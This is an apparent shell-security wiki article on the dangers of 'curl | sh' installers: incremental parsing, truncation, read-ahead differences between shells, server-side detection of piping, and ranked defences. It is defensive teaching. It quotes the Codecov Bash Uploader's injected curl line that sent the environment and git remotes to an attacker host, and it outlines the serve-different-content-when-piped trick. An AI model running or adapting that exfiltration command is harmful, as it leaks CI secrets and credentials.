

# Piped Installers

> [!summary] Claim
> `curl URL | sh` hands the shell an unauthenticated, incrementally executed byte stream whose producer can be cut off, throttled, or detected, so the only safe forms are those that complete and check the download before the first command runs.

Part of [Shell Security](README.md) in [Shell and Unix Engineering](../README.md).

## TL;DR

- Mechanism: the shell parses its standard input one `complete_command` at a time and runs each before it tokenizes the next (POSIX.1-2024 XCU 2.3), so commands execute while the download is still arriving.
- Rule: never let a shell run bytes you have not fully received, status-checked, and, for anything that matters, matched against a digest you obtained out of band.
- Trap: a connection that dies after N bytes runs the first N bytes, and the pipeline's exit status is the shell's, not curl's, so nothing reports the failure.
- Portability fact: POSIX forbids read-ahead on a piped stdin (XCU `sh`, STDIN), yet dash 0.5.12 and BusyBox ash 1.37.0 read a block from the pipe, so the script's own `read` and any stdin-reading child behave differently across shells.
- When not to use it: any host that matters, any script run as root, any CI job, and any installer you could instead fetch to a file, verify, and run; use it only for a throwaway machine, or when the vendor has wrapped the script in one function and you accept the vendor as the trust root.

## Mental model



Bytes flow left to right: the server's body crosses TCP and TLS into curl, curl writes it to a pipe, and the shell reads the pipe and executes commands as soon as each one is syntactically complete.
The dotted arrows are the two feedback paths.
Backward, a command that takes time stops the shell from reading, the pipe fills, curl blocks in `write(2)`, and eventually the server's `send` blocks; that is the signal a hostile server can measure.
Sideways, a short body makes curl exit 18, but the pipeline's status is the last stage's, so the failure is invisible unless `pipefail` is set, and even then the commands have already run.

## How it works

### 1. Wiring: stdin is the script

`curl -fsSL URL | sh` starts two processes joined by one pipe.
curl writes the body to its standard output; the shell has no operand and no `-c`, so POSIX says `-s` is assumed and the shell reads commands from standard input (POSIX.1-2024 XCU `sh`, OPTIONS: "If there are no operands and the -c option is not specified, the -s option shall be assumed").
Arguments for the script go after `-s --`: `curl ... | sh -s -- --yes` makes `$1` equal `--yes`.
posh 0.14.1 has no `-s` option (`posh: -s: unknown option`, status 1, measured in the Debian 13 image, 2026-11), so that form needs a shell that implements it.
The lab proves this and that `-t 0` is false inside, which is why interactive installers cannot simply `read` (see section 3).
With no script file, `$0` is whatever name the shell was started under, so scripts cannot find their own location; installers that need one must download first.

### 2. Execute as you parse

POSIX XCU 2.3 (Token Recognition) ends with the rule that matters: "once a complete_command has been recognized by the grammar (see 2.10 Shell Grammar), the complete_command shall be executed before the next complete_command is tokenized and parsed."
There is no whole-file parse pass, in a pipe or from a file, in any conforming shell.
A `complete_command` is a `list` optionally followed by `&` or `;` (`complete_command : list separator_op | list`, XCU 2.10.2), and successive complete commands are separated by newlines, so the granularity is a top-level list: one simple command, one pipeline, one `if ... fi`, one function definition, one `{ ...; }` group.
Consequences, each checked by the lab:

- A truncation that falls between two top-level commands, or inside the last one, executes everything before it.
  The lab's 414-byte unwrapped installer ends in `remove /opt/tool/cache`; of its 413 possible cuts, 36 run `remove` (bash 5.3.15), 22 with the full path and 14 with each proper prefix of it: `/`, `/o`, `/op`, `/opt`, and so on.
  The partial word is not a syntax error: end of input terminates a simple command, so `remove /` runs.
  The classic form of this is `rm -rf "$DIR/old"` cut to `rm -rf /`.
- A truncation inside a compound command or function body is a syntax error at end of input, and a non-interactive shell exits on a shell language syntax error (XCU 2.8.1), so nothing in that construct runs.
  This is the whole basis of the "wrap everything in a function" defence (section 5).
- A syntax error that appears late runs everything before it.
  This is not specific to pipes (`sh file` parses incrementally too), but a pipe adds no safety net: a script written for bash and piped into dash ran `echo one`, then died at `x=(1 2)` with `Syntax error: "(" unexpected` (measured with dash 0.5.13.5).
- A here-document cut before its delimiter is not reliably an error.
  POSIX XCU 2.7.4: "If the end of input is reached without finding the terminating line, the shell should, but need not, treat this as a redirection error."
  bash 5.3, bash 3.2, dash 0.5.12 and 0.5.13.5, zsh 5.9.2, and ksh93u+ 2012 all ran `cat >out <<EOF` and wrote the partial text with exit status 0 (measured; bash adds a warning on stderr).
  BusyBox ash 1.37.0 and ksh93u+m 1.0.10 do the same; mksh R59c and posh 0.14.1 report `here document 'EOF' unclosed` and exit 1, and yash 2.58.1 reports a syntax error and exits 2, without running the command (measured in the shell matrix's Debian 13 and Alpine 3.22 images, 2026-11).
  A truncated installer can therefore leave a short, valid-looking config file behind.
- An unterminated quote at end of input is a syntax error in all six shells measured, but the commands before it have already run.

### 3. The shared descriptor: no read-ahead, and who reads what

The script text and any data the script reads from stdin share one open file description.
POSIX XCU `sh`, STDIN: "When the shell is using standard input and it invokes a command that also uses standard input, the shell shall ensure that the standard input file pointer points directly after the command it has read when the command begins execution. It shall not read ahead in such a manner that any characters intended to be read by the invoked command are consumed by the shell (whether interpreted by the shell or not) or that characters that are not read by the invoked command are not seen by the shell."
On a pipe the shell cannot seek back, so the only way to comply is to read no more than it parses.
Implementations differ, and the difference is observable:

- bash 5.3: `fd_to_buffered_stream` in `input.c` sizes the buffer as `size = (fd_is_seekable (fd)) ? min (sb.st_size, MAX_INPUT_BUFFER_SIZE) : 1`, so a pipe is read one byte at a time, and `sync_buffered_stream` does an `lseek` back for seekable input (bash-5.3 input.c, `fd_to_buffered_stream`, `sync_buffered_stream`).
  `shell.c` takes this path when `interactive == 0` and there is no script name: `default_buffered_input = fileno (stdin); read_from_stdin = 1;` (bash-5.3 shell.c, `main`).
- dash 0.5.12: `preadfd` does `nr = read(parsefile->fd, buf, IBUFSIZ - 1)` with `IBUFSIZ` defined as `BUFSIZ + 1`, so it takes whatever the pipe holds up to `BUFSIZ` bytes (dash-0.5.12 src/input.c, `preadfd`).
  I built that tarball: for a small script it consumed the whole text, so a `read` on line 1 got end of file, not line 2.
  dash 0.5.13.5 (Homebrew) does not: the current dash `input.c` adds `stdin_tee`, which uses `tee(2)` to peek at the pipe without consuming, and falls back to one-byte reads when `tee` fails with `EINVAL` (dash git `src/input.c`, `preadfd`, `stdin_tee`).
- BusyBox ash 1.37.0: `preadfd` calls `nonblock_immune_read(g_parsefile->pf_fd, buf, IBUFSIZ - 1)` with `IBUFSIZ` defined as 1024, or `CONFIG_FEATURE_EDITING_MAX_LEN` when line editing is built in (busybox-1.37.0 shell/ash.c, `preadfd`).
  A script shorter than that is read in one gulp: `stdin-reader.sh` piped into BusyBox ash 1.37.0 printed `executed-by-the-shell` and `line=[]` in both the Alpine 3.22 and the Debian 13 BusyBox builds (measured in the shell matrix, 2026-11).
- zsh 5.9.2 (native and `--emulate sh`), ksh93u+ 2012, bash 3.2.57 and 5.3: no read-ahead, measured; ksh93u+m 1.0.10, mksh R59c, posh 0.14.1, and yash 2.58.1 do not read ahead either (measured in the shell matrix, 2026-11).

The practical results, all in the lab:

- `read` inside a piped script takes the next script line as data (`printf 'echo a\nread x\necho b\necho "x=$x"\n' | sh` prints `a` then `x=echo b`; a read-ahead shell prints `a`, `b`, `x=`).
- A child that reads to end of file (`cat`, `ssh` without `-n`, `docker run -i`, `apt-get` with a prompt) swallows the rest of the script; the fix is `</dev/null` on the child.
- An installer that wants to ask a question cannot read stdin, because stdin is the script and, once a wrapped script has called its function, already at end of file.
  rustup-init does it explicitly: when `[ ! -t 0 ]` it runs the real installer with `< /dev/tty`, and fails with "Unable to run interactively. Run with -y to accept defaults, --help for additional options" if stdout is not a terminal either (sh.rustup.rs, inside `main`, guarded by its `need_tty` variable, as fetched 2026-11).
  Homebrew's install.sh instead tests `[[ ! -t 0 ]]` and warns that it is running in non-interactive mode because stdin is not a TTY (install.sh, as fetched 2026-11).

### 4. Backpressure: why a server can tell

Because the shell stops reading while a command runs, the producer is paced by the consumer.
Linux pipes hold 65,536 bytes by default (pipe(7): "the pipe capacity is 16 pages (i.e., 65,536 bytes in a system with a page size of 4096 bytes)", since Linux 2.6.11), and a `write(2)` to a full pipe blocks (pipe(7)).
A server that sends `sleep 10` first, then enough padding to fill the pipe and the socket buffers, sees its own `send` stall for the length of the sleep when the receiver is a shell, and no stall when the receiver is a terminal or a file.
idontplaydarts.com ("Detecting the use of curl | bash server side", published 2016-04-19) built exactly this; their measurements needed about 1 MB of padding on Ubuntu (with the send buffer pinned to 87380 bytes, the Ubuntu 14.04 LTS default) to fill the TCP receive buffer, they note that on a stable connection the sleep could be cut to under a second, and the padding was null bytes that a terminal does not render.
The server then serves a benign file to a reviewer and a malicious one to `| sh`.
The lab's `throttle-probe.sh` reproduces only the pipe stage of this: the producer is still blocked in `write(2)` after the consumer's two-second sleep when the padding is 4 MiB, and has finished when it is 640 bytes.
It does not model the socket, so it shows the primitive and not the end-to-end detector.
The article's own detection hint is `curl URL | (sleep 3; cat)`; it adds that this "is by no means fool proof" and recommends saving to a file and reading it first.

### 5. Transport failure modes, in curl's own words

- Truncation: curl exits 18 ("Partial file. Only a part of the file was transferred", curl man page, EXIT CODES, curl 8.23.1 page, as of 2026-11).
  In a pipeline that code is discarded; `$?` is the shell's.
  `set -o pipefail` (POSIX.1-2024 XCU 2.9.2; the change history of `set` in XCU 2.15 says "Austin Group Defect 789 is applied, adding -o pipefail") makes the pipeline fail with 18, but only after the prefix has run, so it is a report and not a guard.
  The lab's `pipefail` mode prints `status=18` after `REMOVE /opt`; upstream dash 0.5.12 rejects the option outright (`set: Illegal option -o pipefail`, measured on a build of the release tarball) and so does posh 0.14.1 (`set: pipefail: bad option`), while Debian 13's dash 0.5.12-12 accepts it because Debian carries `0021-jobs-Implement-pipefail-option.patch` (sources.debian.org; measured in the shell matrix, 2026-11), so feature-detect it rather than keying on the version.
- HTTP errors: "By default, curl does not consider HTTP response codes to indicate failure"; `-f` makes it "Fail with error code 22 and with no response body output at all" for codes of 400 or more, with the caveat "This method is not fail-safe ... especially when authentication is involved (response codes 401 and 407)".
  Without `-f`, a 404 page goes to the shell.
- Silent mode: `-s` hides "error messages" too; `-S` restores them (curl man page, `--silent`, `--show-error`).
  The idiom is `-fsSL`.
- Retries and pipes: curl removes partial output before a retry only for `--output` files; "It cannot do that for data written to stdout, a pipe or a shell redirect, so a retry after a partially received transfer ... may produce duplicate data there" (curl man page, `--retry`).
  `curl --retry 3 URL | sh` can therefore feed the shell a prefix, then the whole file again.
- Redirects: `--proto '=https'` restricts the initial request, and `--proto-redir` the redirects; "By default curl only allows HTTP, HTTPS, FTP and FTPS on redirects" (curl man page, `--proto-redir`).
  rustup-init uses `--proto '=https' --tlsv1.2 --silent --show-error --fail --location` and writes to a file (`--output "$2"`), not to a pipe (sh.rustup.rs, `downloader`, the branch without a cipher override; the main branch adds `--ciphers`).
  Note the structure: the piped part is a small stub that downloads the real binary to a file.
- Early exit: if the script exits before curl finishes, curl's write fails (curl exit 23, "Write error", curl man page) or it dies of `SIGPIPE`; either way the status is again hidden.

### 6. The command-substitution variants

`/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"` is Homebrew's documented install command (Homebrew/install README, as fetched 2026-11), and `eval "$(curl ...)"` is the same idea.
Command substitution collects the whole output until end of file before the outer command starts (XCU 2.6.3), so stdin stays free for prompts and the shell never sees a half-finished stream.
It does not fix truncation: a short body is a complete, shorter string, curl's status is masked because it is inside an argument, and the shell runs whatever it got.
The lab's `eval` mode shows `REMOVE /opt` and `status=0`.
Process substitution is no better: `bash <(head -c 381 installer-unwrapped.sh)` and `head -c 381 installer-unwrapped.sh | bash /dev/stdin` both printed `install: begin` and `REMOVE /opt` (measured by hand, bash 5.3.15, not in the lab), because the script arrives on a pipe either way and the shell reads it incrementally.
It also puts the script in one argv string, and Linux limits a single argument to 32 pages (the kernel constant `MAX_ARG_STRLEN`, execve(2)), which is 131072 bytes with 4 KiB pages,, after which `execve` fails with `E2BIG`.
The safe form assigns first and tests, so the status is not masked: `body=$(curl -fsSL URL) || exit` and only then `sh -c "$body"` (lab mode `checked` prints `fetch-failed=18` and runs nothing).

### 7. Defences, ranked by what they actually stop

| Defence | Stops truncation | Stops a hostile or compromised server | Cost |
|---|---|---|---|
| Wrap the whole script in a function and call it on the last line | yes, except a cut inside the final call line | no | vendor must do it |
| Check curl's status before running (`checked`) | yes | no | script, not one-liner |
| `curl -fsSL -o f URL; sha256sum -c; sh f` with a pinned digest | yes | yes, if the digest came from a different channel | digest distribution |
| Detached signature verified with a pinned key | yes | yes, if the key is pinned | key distribution |
| Package manager or OS package | yes | yes, within the repository's signing | slower releases |

The vendor-side wrap is visible in real installers:

- Docker's get.docker.com ends with `# wrapped up in a function so that we have some protection against only getting` / `# half the file during "curl | sh"` and then calls `do_install` (fetched 2026-11).
- nvm's install.sh opens with `{ # this ensures the entire script is downloaded #` and closes with the matching `}`, so the brace group is one `complete_command` (nvm-sh/nvm master, as fetched 2026-11).
- rustup-init.sh defines `main()` and calls it as `main "$@" || exit 1` in the default branch of a `case` statement at the end, again one compound command (sh.rustup.rs, as fetched 2026-11).

The lab measures what the wrap buys: the 422-byte wrapped installer has 421 possible cuts, and only 3 run anything, namely the cuts after `main`, after `main `, and after `main "$@"` with the newline dropped; each runs the complete body, because the function was already fully defined.
A cut that leaves `main "` open is a syntax error.
ksh93u+ 2012 also ran the body for a cut after `main "$`, a fourth case; the body is still whole.
ksh93u+m 1.0.10, dash 0.5.12, BusyBox ash 1.37.0, mksh R59c, posh 0.14.1, and yash 2.58.1 give the same 3 as bash (measured in the shell matrix, 2026-11).
The residual risk is a cut that lands exactly inside the last line in a way that changes its meaning, such as `main "$@" --force` shortened to `main "$@"`; for scripts whose last line carries arguments, put them before the call, not after.

The pin-and-verify rows are the subject of [[Supply-Chain-Pinning-and-Verification]]; the lab's `verify-then-run.sh` shows the minimal form: copy to a private directory, compare a SHA-256 (via `sha256sum`, or `shasum -a 256` on macOS), refuse with exit 1 on mismatch, run only on a match.

## Numbers and limits

| Quantity | Value | Source |
|---|---|---|
| Linux default pipe capacity | 65,536 bytes (16 pages of 4096) | pipe(7), man-pages, as of 2026-11 |
| macOS pipe buffer | starts at 16 KiB, grows to 64 KiB | shell matrix measurement, 2026-10 |
| `PIPE_BUF` | 4096 on Linux, 512 on macOS | shell matrix, 2026-10; `getconf PIPE_BUF /` printed 512 on this macOS 27.3 host |
| Pipe plus socket padding to detect `curl \| bash` | about 1 MB on Ubuntu 14.04 | idontplaydarts.com, 2016-04-19 |
| Padding that blocks the lab's producer | 4,194,304 bytes blocks; 640 bytes does not | lab `throttle-probe.sh`, run on bash 5.3.15 |
| `ARG_MAX` | 1,048,576 on this macOS 27.3 host (`getconf ARG_MAX`, `sysctl kern.argmax`) | measured here |
| Linux single-argument limit | 32 pages (131072 bytes with 4 KiB pages) | execve(2) |
| dash 0.5.12 stdin read size | up to `BUFSIZ` bytes per `read` | dash-0.5.12 src/input.c, `preadfd` |
| BusyBox ash 1.37.0 stdin read size | up to `IBUFSIZ - 1` bytes (1023 when `IBUFSIZ` is 1024) | busybox-1.37.0 shell/ash.c, `preadfd`; read-ahead measured in the shell matrix, exact size not measured |
| bash 5.3 stdin read size, non-seekable | 1 byte | bash-5.3 input.c, `fd_to_buffered_stream` |
| Unwrapped lab installer | 414 bytes, 413 cuts, 36 run `remove` (22 full path, 14 proper prefixes) | lab `truncate-sweep.sh`, bash 5.3.15 (re-run on 5.3.20, 2026-11); identical in bash 3.2.57, dash 0.5.12 and 0.5.13.5, zsh 5.9.2, ksh93u+m 1.0.10, BusyBox ash 1.37.0, mksh R59c, posh 0.14.1, yash 2.58.1; ksh93u+ 2012 adds 2 runs with an empty argument (cuts 376 and 377) |
| Wrapped lab installer | 422 bytes, 421 cuts, 3 run, all with the full path (4 in ksh93u+ 2012) | same |
| curl exit codes | 18 partial file, 22 HTTP error with `-f`, 23 write error | curl man page, curl 8.23.1 |
| Codecov Bash Uploader tampering | 2021-01-31 to 2021-04-01, 108 windows | Codecov security update |

## Portability

| Shell | Runs each complete command before EOF | Reads ahead on a piped stdin | `set -o pipefail` | Truncated here-document |
|---|---|---|---|---|
| POSIX sh | required (XCU 2.3) | forbidden (XCU `sh`, STDIN) | required in POSIX.1-2024 | "should, but need not" error (XCU 2.7.4) |
| macOS `/bin/sh` (bash 3.2.57, POSIX mode) | yes (sweep run with `/bin/sh`: 36 and 3) | no (measured via `/bin/bash` and `/bin/sh`) | accepted (measured, `/bin/sh`) | command ran, status 0 (measured, `/bin/sh`) |
| bash 5.3.15 | yes (lab sweep) | no, 1-byte reads (bash-5.3 input.c; lab) | yes | command ran, warning on stderr (measured) |
| zsh 5.9.2 native | yes (measured) | no (measured) | accepted (measured) | command ran (measured) |
| zsh `--emulate sh` | yes (measured, sweep 36 and 3) | no (measured) | accepted (measured) | command ran, status 0 (measured) |
| dash 0.5.12 (Debian 13) | yes (measured, sweep 36 and 3) | yes, up to `BUFSIZ` per read (source; measured) | accepted in Debian's 0.5.12-12 (patch `0021-jobs-Implement-pipefail-option`, measured); upstream 0.5.12 rejects it, `Illegal option -o pipefail` (measured) | command ran, status 0 (measured) |
| dash 0.5.13.5 (Homebrew) | yes (measured) | no (measured) | accepted (measured) | command ran (measured) |
| ksh93u+ 2012 (macOS `/bin/ksh`) | yes (measured; also runs a cut `main "$`) | no (measured) | accepted (measured) | command ran (measured) |
| ksh93u+m 1.0.10 (Debian 13) | yes (measured, sweep 36 and 3) | no (measured) | accepted (measured) | command ran, status 0 (measured) |
| mksh R59c (Debian 13) | yes (measured, sweep 36 and 3) | no (measured) | accepted (measured) | error `here document 'EOF' unclosed`, status 1, nothing written (measured) |
| posh 0.14.1 (Debian 13) | yes (measured, sweep 36 and 3) | no (measured) | rejected, `set: pipefail: bad option` (measured) | error `here document 'EOF' unclosed`, status 1 (measured) |
| yash 2.58.1 (Alpine 3.22) | yes (measured, sweep 36 and 3) | no (measured) | accepted (measured) | syntax error, status 2 (measured) |
| BusyBox ash 1.37.0 (Alpine 3.22, Debian 13) | yes (measured, sweep 36 and 3) | yes (measured; `read` of `IBUFSIZ - 1` by source) | accepted (measured) | command ran, status 0 (measured) |

| Utility | Fact | Source |
|---|---|---|
| curl | exit 18 partial, 22 with `-f`, `--retry` duplicates into a pipe | curl man page, 8.23.1; this host runs 8.22.0 |
| SHA-256 | GNU and BusyBox `sha256sum`; macOS `shasum -a 256`, plus `/sbin/sha256sum` on this macOS 27.3 host | lab `sha256-of.sh`; measured |
| `head -c N` | works on GNU and BSD; BSD `head` rejects `-c 0`, so the sweep starts at 1 | lab `truncate-sweep.sh` |
| uutils coreutils | not run here | not covered |

## Worked example

The lab is [lab](../labs/17-piped-installers/).
`installer-unwrapped.sh` is the shape every one-liner should avoid; `installer-wrapped.sh` is the same body inside `main`.

```sh
# installer-unwrapped.sh (simplified excerpt: shebang and comments omitted)
set -eu
remove() {
  printf 'REMOVE %s\n' "$1"
}
echo "install: begin"
remove /opt/tool/cache
echo "install: done"
```

`fake-curl.sh cut FILE N` prints the first N bytes and exits 18, as curl does for a short body.
`fetch-modes.sh` runs one truncated download through each way people execute it.
Cutting right after `remove /opt` (381 bytes), the lab printed, on bash 5.3.15:

```text
$ fetch-modes.sh pipe installer-unwrapped.sh 381 bash
install: begin
REMOVE /opt
status=0
$ fetch-modes.sh pipefail installer-unwrapped.sh 381 bash
install: begin
REMOVE /opt
status=18
$ fetch-modes.sh eval installer-unwrapped.sh 381 bash
install: begin
REMOVE /opt
status=0
$ fetch-modes.sh checked installer-unwrapped.sh 381 bash
fetch-failed=18
$ fetch-modes.sh pipe installer-wrapped.sh 375 bash   # cut after "remove /opt" in the body
bash: line 12: syntax error: unexpected end of file from `{' command on line 5
status=2
```

The sweep prints every cut and the path `remove` received (`-` when it never ran):

```text
$ truncate-sweep.sh installer-unwrapped.sh bash | awk -F'\t' '$2 != "-"' | sed -n '1,3p;12,16p'
378  /
379  /o
380  /op
389  /opt/tool/ca
390  /opt/tool/cac
391  /opt/tool/cach
392  /opt/tool/cache
393  /opt/tool/cache
```

The stdin-sharing test feeds `stdin-reader.sh` to the shell on a pipe:

```text
$ feed.sh "$(cat stdin-reader.sh)" bash        # also zsh, ksh93u+, dash 0.5.13.5
line=[echo executed-by-the-shell]
$ feed.sh "$(cat stdin-reader.sh)" dash-0.5.12
executed-by-the-shell
line=[]
```

The throttle probe, with a producer that writes the padding and then a marker file:

```text
$ throttle-probe.sh DIR 4194304 bash
writer-blocked
$ throttle-probe.sh DIR 640 bash
writer-finished
```

The bats file `piped-installers.bats` asserts each of these per shell family.
Only the read-ahead arms for dash accept either outcome, because dash 0.5.12 reads ahead and 0.5.13 and later do not, and the family name cannot tell them apart; the BusyBox ash arms assert read-ahead, and the here-document test asserts the exact per-shell split in the table (file written with status 0, or nothing written with status 1 for mksh and posh and status 2 for yash).
The 16 tests passed on the macOS host under bash 5.3.15, `/bin/sh` (bash 3.2.57), zsh 5.9.2 (native and `--emulate sh`), dash 0.5.13.5, and ksh93u+ 2012, and under dash, mksh, posh, ksh93u+m, BusyBox ash, and zsh in the Debian 13 image and dash, mksh, yash, BusyBox ash, and zsh in the Alpine 3.22 image (2026-11).
Running the whole file on every shell found two bugs in the lab itself, both fixed: the pipefail test read bats `run`'s always-zero return instead of `$status`, so it expected `status=18` from shells that reject `set -o pipefail` (posh, upstream dash), and the here-document test passed the output path through `sh -s --`, which posh rejects (`posh: -s: unknown option`, status 1), so its first posh result was an option error and not the here-document error.
The `-s` test now asserts that posh 0.14.1 has no `-s` option, and the here-document installer takes its output path from the environment.

## Pitfalls

> [!warning] Truncation runs a prefix
> Trigger: the connection drops, a proxy times out, or the CDN serves a short body, while the script is the unwrapped shape above.
> Symptom: the first N bytes ran, possibly `rm -rf "$DIR/old"` cut to `rm -rf /`, and the shell exits normally.
> Fix: vendors wrap the body in a function (get.docker.com, nvm, rustup-init all do); users fetch to a file, check curl's status, then run.
> Evidence: the lab sweep (36 of 413 cuts ran `remove`, 14 of them on a proper prefix of the path).

> [!warning] The pipeline status is the shell's
> Trigger: `curl URL | sh` in a CI step or a provisioning script with `set -e`.
> Symptom: curl exits 18 or 22 and the step passes, because `$?` is the last stage's.
> Fix: `-f`, and `set -o pipefail` where the shell has it (not upstream dash 0.5.12 or posh 0.14.1; Debian 13's patched dash has it); better, do not pipe.
> Note: `pipefail` only reports, and the prefix has already run.

> [!warning] A child reads your script
> Trigger: a command in a piped script reads stdin: `read`, `cat`, `ssh host cmd`, `docker run -i`, `mysql < ...` without a redirect, a package manager prompt.
> Symptom: the next lines of the script are consumed as data and never run, or the command sees script text as input.
> Fix: `</dev/null` on every child that does not need input, `ssh -n`, and for real prompts read from `/dev/tty` after checking it exists (rustup-init's pattern).

> [!warning] Prompt gets end of file
> Trigger: an installer wrapped in `main` asks `read -r ans` after the function is called.
> Symptom: a nine-line wrapped script I ran by hand under bash (not in the lab) printed `Proceed? [y/N] aborted` at once, because the stream was already exhausted.
> Fix: ask on `/dev/tty`, and offer `-y` or an environment variable for unattended use, which is what Homebrew's `NONINTERACTIVE=1` and rustup's `-y` do.

> [!warning] `--retry` into a pipe duplicates data
> Trigger: `curl --retry 3 URL | sh` and a mid-body timeout.
> Symptom: the shell receives a prefix and then the complete file again.
> Source: the curl man page says it "cannot do that for data written to stdout, a pipe or a shell redirect".
> Fix: write to a file with `-o`, which curl truncates before retrying.

> [!warning] No `-f`: an error page is the script
> Trigger: a moved URL or a 404 without `-f`.
> Symptom: the shell tries to run HTML or "404: Not Found" as commands; with a lucky first line it runs something.
> Fix: `-f` (exit 22) and `-S`.

> [!warning] The server can serve you something else
> Trigger: you read the script in a browser, then run `curl | sh`.
> Symptom: different bytes; the server keys on the user agent, or, as idontplaydarts.com showed in 2016, on whether the receiver stalls.
> Fix: review the bytes you will run, saved to disk, and run that file with a pinned digest.
> Related: a copy-paste of the one-liner can carry different text than what the page shows; the dxa4481/Pastejacking demo overrides the clipboard on a browser event, so paste into an editor first.

> [!warning] The origin is the trust root
> Trigger: a CI job fetches a vendor script such as https://codecov.io/bash on every build and runs it with the build environment in scope.
> Symptom: Codecov's Bash Uploader was modified between 2021-01-31 and 2021-04-01 (108 windows) after an attacker extracted a credential from an error in the Docker image creation process; the change added `curl -sm 0.5 -d "$(git remote -v)<<<<<< ENV $(env)" https://IPADDRESS/upload/v2 || true` and sent CI environment variables out.
> Detection: on 2021-04-01 a customer compared the shasum of the downloaded script with the one published on GitHub and reported the difference.
> Fix: pin a digest, verify it, and do not give CI jobs broad secrets in the environment (see [[Secrets-in-argv-env-and-History]]).
> Source: Codecov, "Bash Uploader Security Update".

> [!warning] Written for bash, piped to sh
> Trigger: `curl URL | sh` on Debian, where `sh` is dash, and a script that uses `[[`, arrays, or `$'...'`.
> Symptom: lines before the first bashism run, then `Syntax error: "(" unexpected`; the system is half-installed.
> Fix: pipe to the shell the script names in its shebang (`| bash`), or fetch and run the file so the shebang applies, and run `sh -n` or `bash -n` on the file first.

## Security and robustness

- Treat `curl | sh` as remote code execution by design: HTTPS authenticates the server and protects bytes in flight, not what the server decides to send, whether the origin has been compromised (Codecov), or whether the stream is complete.
- Privilege multiplies the risk: `curl | sudo sh` runs every line as root, and a truncated line runs as root.
  Prefer an installer that works in a user-owned prefix, and see [[sudo-and-sudoers]] and [[Dropping-Privileges]].
- Secrets do not belong in one-liners: a token in the URL or in `-H 'Authorization: ...'` lands in history, in `ps`, and in server logs; see [[Secrets-in-argv-env-and-History]] and use a netrc file or `curl -K -` with the config on stdin.
- Vendors: wrap the body in one function or brace group and make the last line the only top-level command; publish a digest and a signature on a different channel; keep the script small and have it download a binary to a file, as rustup-init does.
- Users: download to a file in a directory only you can write, read it, check curl's status, verify the digest, then run it; or use the OS package.
  For a script you must run unreviewed, run it where the damage is bounded: a container or VM, or one of the approaches in [[Sandboxing-Scripts]].
- The related incident class is a trusted channel delivering untrusted code; see [[xz-Utils-Backdoor]] for the same failure through a release tarball, and [[Shell-Threat-Model]] for where this fits.
- Do not detect "being piped" to behave differently yourself: it is the attacker's technique and it makes your installer impossible to audit.

## The principal's view

The decision is not whether `curl | sh` is more dangerous than downloading a tarball: if you will run the code either way, the trust root is the vendor and the transport is TLS in both cases.
The decision is what you can no longer do: you cannot pin a version, diff against last time, record what ran, retry safely, or detect that you were served something different, and the failure modes (truncation, status loss, stdin theft) are mechanical bugs that the one-liner form creates.
For a platform team, the default is a rule: production and CI install from a package repository, a pinned artifact with a checked digest, or a vendored copy of the installer in the repo; `curl | sh` is allowed on a disposable machine and in documentation only with the file-first variant next to it.
When you are the vendor, ship the wrapped script, the digest, a signature, and a `.pkg` or distro package; Homebrew's own README recommends the `.pkg` installer for MDM deployments on Apple Silicon Macs rather than the one-liner (Homebrew/install README, as fetched 2026-11).
The trade-off you accept by banning it is friction for developers and a slower path to the latest version; the cost you avoid is an undetectable, unrepeatable, root-capable remote execution on every machine.
Past roughly 100 lines of logic, or anything that needs prompts, retries, rollback, or uninstall, the installer should not be a shell script at all: use a package format, or a small static binary that downloads and verifies artifacts, which is what the shell stub of rustup-init converges on.

## Interview questions

> [!question] L5: Why can `curl URL | sh` run part of a script when the download fails?
>
> > [!success]- Answer
> > The shell parses stdin one `complete_command` at a time and executes each before reading the next (POSIX XCU 2.3).
> > So bytes that arrived before the failure have already run.
> > curl exits 18 for a partial body, but the pipeline status is the shell's, so nothing reports it.
> >
> > Follow-up: What changes with `set -o pipefail`?

> [!question] L5: What do `-f`, `-s`, `-S`, and `-L` do in `curl -fsSL`, and which is missing from `curl -s URL | sh`?
>
> > [!success]- Answer
> > `-f` makes curl exit 22 on an HTTP status of 400 or more instead of printing the error page.
> > `-s` silences progress and errors, and `-S` restores error messages under `-s`.
> > `-L` follows redirects.
> > Without `-f`, an error page is piped to the shell as a script.
> >
> > Follow-up: Which option restricts the protocols a redirect may use?

> [!question] L6: Predict the output of `printf 'echo a\nread x\necho b\necho "x=$x"\n' | sh` on bash, then on dash 0.5.12.
>
> > [!success]- Answer
> > bash prints `a` and `x=echo b`: the shell reads one byte at a time from a pipe, so `read` takes line 2 as data and `echo b` never runs.
> > dash 0.5.12 prints `a`, `b`, `x=`: it read a block from the pipe, so `read` sees end of file.
> > POSIX XCU `sh`, STDIN, requires the bash behaviour; dash 0.5.13.5 does not read ahead (measured); the current dash source peeks with `tee(2)` instead.
> >
> > Follow-up: Which kernel call lets dash peek at a pipe without consuming, and what does it do when that is unavailable?

> [!question] L6: Debug this script: `curl -fsSL URL | sh` runs an installer that wrapped its logic in `main`, prints `Proceed? [y/N]`, and aborts without letting the user type.
>
> > [!success]- Answer
> > Stdin is the script pipe, already at end of file once `main` is called, so `read -r ans` returns immediately with an empty value and the `case` takes the default branch.
> > Fix: read from the terminal, `read -r ans </dev/tty`, after checking `[ -t 1 ]` and that `/dev/tty` opens, and provide `-y` or `NONINTERACTIVE=1` for unattended runs.
> > rustup-init does the first and Homebrew the second.
> >
> > Follow-up: Why does `sh -c "$(curl ...)"` not have this problem, and what does it give up?

> [!question] L6: What does wrapping an installer in a function actually guarantee?
>
> > [!success]- Answer
> > A truncation anywhere inside the function body is a syntax error at end of input, and a non-interactive shell exits on that (XCU 2.8.1), so nothing in the body runs.
> > A truncation before the final call line means `main` is never called.
> > It does not protect against a hostile server, and a cut inside the last line can still run the complete body.
> >
> > Follow-up: Why does a cut after `main "$@"` without the newline still run, and is that a problem?

> [!question] L6: Is `bash -c "$(curl -fsSL URL)"` safe against truncation, and what about the 404 case?
>
> > [!success]- Answer
